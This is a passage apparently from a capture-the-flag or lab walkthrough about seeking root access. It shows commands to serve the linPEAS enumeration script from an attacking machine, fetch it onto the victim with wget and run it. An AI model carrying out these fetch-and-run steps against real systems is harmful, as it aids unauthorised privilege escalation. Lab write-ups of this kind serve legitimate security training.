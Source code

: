 Now lets see if we can get the root access. Lets download the Linux local Privilege Escalation Awesome Script onto the machine and use that to find privilege escalation vectors.

[LinPEAS github repo](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

Host the file on your attacking machine using a simple python http server and serve it to the victim via http and download with wget.
```bash
# Start python web server where your linpeas.sh script is located.
sudo python3 -m http.server 80

# On the victim machine download the file using wget from your attacking machines IP address
wget 192.168.56.102/linpeas.sh

# Change the permissions on the file to be able to execute it.
chmod +x linpeas.sh

# Now execute the script with all tests (-a) and output to a file for later analyses if need be
./linpeas.sh -a | tee linpeas_robot.txt
```
